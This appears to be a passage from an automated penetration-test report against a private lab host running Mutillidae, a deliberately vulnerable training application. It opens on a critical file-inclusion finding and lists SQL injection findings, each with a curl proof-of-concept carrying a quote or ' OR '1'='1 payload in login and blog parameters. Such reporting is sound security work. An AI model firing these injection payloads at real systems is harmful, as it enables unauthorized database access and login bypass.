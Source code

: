 Risk Level: CRITICAL
Risk Description: Password hashes, database files, and SSH keys accessible - complete system compromise
Total Files Accessed: 39
- **Proof File**: outputs/192.168.1.50_http_lfi_discovered_proof.txt

## HIGH Risk Exploits

### SQL Injection (Error-based Indicator)
- **Target**: 192.168.1.50:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: Possible SQL error reflection at http://192.168.1.50/mutillidae/user-info.php?username=1'
- **PoC**: `curl 'http://192.168.1.50/mutillidae/user-info.php?username=1''`
- **Proof**: Possible SQL error reflection at http://192.168.1.50/mutillidae/user-info.php?username=1'
- **Proof File**: outputs/192.168.1.50_http_mutillidae_sqli_proof.txt

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.50:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.50/mutillidae/add-to-your-blog.php param entry
- **PoC**: `curl -X POST 'http://192.168.1.50/mutillidae/add-to-your-blog.php' --data 'entry=%27+OR+%271%27%3D%271&title=test'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.50:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.50/mutillidae/add-to-your-blog.php param title
- **PoC**: `curl -X POST 'http://192.168.1.50/mutillidae/add-to-your-blog.php' --data 'entry=test&title=%27+OR+%271%27%3D%271'`
- **Proof**: SQL error indicators present

### SQL Injection (POST - Error-based)
- **Target**: 192.168.1.50:80
- **Risk Level**: HIGH
- **Risk Description**: No description available
- **Details**: SQL Injection (POST - Error-based): http://192.168.1.50/mutillidae/login.php param username
- **PoC**: `curl -X POST 'http://192.168.1.50/mutillidae/login.php' --data 'username=%27+OR+%271%27%3D%271&password=test'`
- **Proof**: SQL error indicators present

## MEDIUM Risk Exploits

